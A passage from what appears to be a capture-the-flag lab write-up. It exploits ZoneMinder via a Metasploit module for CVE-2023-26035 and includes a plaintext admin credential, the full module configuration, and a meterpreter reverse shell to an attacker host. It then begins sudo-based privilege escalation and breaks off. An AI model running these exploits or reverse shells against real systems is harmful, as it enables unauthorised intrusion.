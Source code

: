 `admin:starcraft122490`

Returning to the CVEs previously researched, we can apply a [metasploit module](https://www.rapid7.com/db/modules/exploit/unix/webapp/zoneminder_snapshots/) for CVE-2023-26035:
```
msf6 exploit(unix/webapp/zoneminder_snapshots) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(unix/webapp/zoneminder_snapshots) > set RPORT 8080
RPORT => 8080
msf6 exploit(unix/webapp/zoneminder_snapshots) > set TARGETURI /
TARGETURI => /
msf6 exploit(unix/webapp/zoneminder_snapshots) > set SRVPORT 8001
SRVPORT => 8001
msf6 exploit(unix/webapp/zoneminder_snapshots) > set FETCH_SRVPORT 8001
FETCH_SRVPORT => 8001
msf6 exploit(unix/webapp/zoneminder_snapshots) > set LHOST 10.10.14.134
LHOST => 10.10.14.134
msf6 exploit(unix/webapp/zoneminder_snapshots) > run

[*] Started reverse TCP handler on 10.10.14.134:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Elapsed time: 12.486233060000814 seconds.
[+] The target is vulnerable.
[*] Fetching CSRF Token
[+] Got Token: key:2c845697e6a6bc33c79b12bb323b79878b1f0db1,1702229326
[*] Executing nix Command for cmd/linux/http/x64/meterpreter/reverse_tcp
[*] Sending payload
[*] Sending stage (3045380 bytes) to 10.129.171.36
[*] Meterpreter session 1 opened (10.10.14.134:4444 -> 10.129.171.36:45848) at 2023-12-10 11:28:48 -0600
id
[+] Payload sent

meterpreter > id
[-] Unknown command: id
meterpreter > shell
Process 25281 created.
Channel 1 created.
id
uid=1001(zoneminder) gid=1001(zoneminder) groups=1001(zoneminder)
```
## Privilege Escalation
### Command injection in zmupdate.pl
Checking new sudo privs:
```
zoneminder@surveillance:/usr/share/zoneminder/www$ sudo -l
Matching Defaults entries for zoneminder on surveillance:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User zoneminder may run the following commands on surveillance:
    (ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *
```
so we can run .pl files from bin. our options:
```
zoneminder@surveillance:/usr/share/zoneminder/www$ ls -al /usr/bin/zm*.pl
-rwxr-xr-x 1 root root 43027 Nov 23  2022 /usr/bin/zmaudit.pl
-rwxr-xr-x 1 root root 12939 Nov 23  2022 /usr/bin/zmcamtool.pl
-rwxr-xr-x 1 root root  6043 Nov 23  2022 /usr/bin/zmcontrol.pl
-rwxr-xr-x 1 root root 26232 Nov 23  2022 /usr/bin/zmdc.pl
-rwxr-xr-x 1 root root 35206 Nov 23  2022 /usr/bin/zmfilter.pl
-rwxr-xr-x 1 root root  5640 Nov 23  2022 /usr/bin/zmonvif-probe.pl
```